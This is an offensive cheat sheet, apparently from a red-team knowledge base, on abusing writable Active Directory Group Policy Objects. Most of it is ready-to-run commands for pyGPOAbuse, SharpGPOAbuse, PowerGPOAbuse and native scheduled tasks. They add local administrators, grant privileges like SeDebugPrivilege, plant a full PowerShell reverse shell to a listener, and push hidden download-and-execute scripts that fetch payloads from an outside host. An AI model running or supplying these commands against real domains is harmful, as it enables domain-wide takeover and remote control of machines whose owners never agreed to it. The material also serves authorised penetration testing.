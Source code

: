 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# GPO Abuse
## Overview
* <details><summary>Requirements (Click to expand)</summary><p>
	* WriteProperty to the GPC-File-Sys-Path property of a GPO (specific GUID specified)
	* GenericAll, GenericWrite, WriteProperty to any property (no GUID specified)
	* WriteDacl, WriteOwner

## Attacks
### From a Linux Machine

* <details><summary>pyGPOAbuse [https://github.com/Hackndo/pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse) (Click to expand)</summary><p>
	* Examples
		* Example 1: update an existing GPO, Add a local administrator (Default Functionality)

				./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
		* Example 2: Establish a reverse shell

				./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
				    -powershell \ 
				    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
				    -taskname "Completely Legit Task" \
				    -description "Dis is legit, pliz no delete" \ 
				    -user
* Recommended to avoid in production cases: GPOwned


### From a Windows Machine

* .NET
	* <details><summary>SharpGPOAbuse (Click to expand)</summary><p>
		* Examples
			* Example 1: Build and configure SharpGPOAbuse

					$ git clone https://github.com/FSecureLABS/SharpGPOAbuse
					$ Install-Package CommandLineParser -Version 1.9.3.15
					$ ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.dll
			* Example 2: Adding User Rights

					.\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"
			* Example 3: Adding a Local Admin

					.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"
			* Example 4: Configuring a User or Computer Logon Script

					.\SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
			* Example 5: Configuring a Computer or User Immediate Task. Note: Intended to "run once" per GPO refresh, not run once per system

					.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
					.\SharpGPOAbuse.exe --AddComputerTask --GPOName "VULNERABLE_GPO" --Author 'LAB.LOCAL\User' --TaskName "EvilTask" --Arguments  "/c powershell.exe -nop -w hidden -enc BASE64_ENCODED_COMMAND " --Command "cmd.exe" --Force
* PowerShell
	* <details><summary>PowerGPOAbuse (Click to expand) -<br />[https://github.com/rootSySdk/PowerGPOAbuse](https://github.com/rootSySdk/PowerGPOAbuse)</summary><p>
		* Initiate

				PS> . .\PowerGPOAbuse.ps1
		* Examples
			* Example 1: Adding a localadmin 

					PS> Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'
			* Example 2: Assign a new right 

					PS> Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'
			* Example 3: Adding a New Computer/User script 

					PS> Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get-Content evil.ps1) -GPOIdentity 'SuperSecureGPO'
 			* Example 4: Create an immediate task 

					PS> Add-GPOImmediateTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments "'$(Get-Content evil.ps1)'" -Author Administrator -Scope Computer/User -GPOIdentity 'SuperSecureGPO'
	* Native
		* Immediate Scheduled Task
			* <details><summary>Process (Click to expand)</summary><p>
				1. An attacker can edit the GPO to add a scheduled task that runs instantly and removes itself after, every time Group Policy refreshes. The attacker can then gain access to all AD objects this GPO applies to.

						New-GPOImmediateTask -Force -TaskName 'TaskName' -GPODisplayName 'GPODisplayName' -Command powershell -CommandArguments '-NoP -NonI -W Hidden -Enc JABXAGMA[...]BOz4=='
				1. Another example of exploitation could be to add a user to the local administrators group.

						New-GPOImmediateTask -Verbose -Force -TaskName 'TaskName' -GPODisplayName 'GPODisplayName' -Command cmd -CommandArguments "/c net localgroup administrators shutdown /add"
				1. After a successful execution, the scheduled task can be removed with the following command.

						New-GPOImmediateTask -Force -Remove -GPODisplayName 'GPODisplayName'
				1. Optional: Force Group Policy Update (Occurs every 90 minutes otherwise)

						gpupdate /force